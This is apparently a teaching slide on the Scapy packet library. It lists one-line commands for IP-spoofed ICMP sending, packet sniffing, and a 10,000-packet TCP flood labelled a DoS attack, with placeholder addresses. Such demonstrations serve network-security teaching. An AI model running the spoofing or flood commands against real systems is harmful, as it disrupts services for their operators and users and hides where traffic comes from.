

# Scapy Library (In terminal)
IP Spoof: send(IP(src=“<attacker IP>”, dst=“<target IP>”)/ICMP()/“Hello world”)
Network Sniffing: sniff(iface=“<interface>”, prn=lambda x:x.summary)
BE CAREFUL WITH THIS NEXT ONE
DOS Attack: send(IP(src=“attacker IP”, dst=“<target>”)/TCP(sport=444, dport=444), count=10000)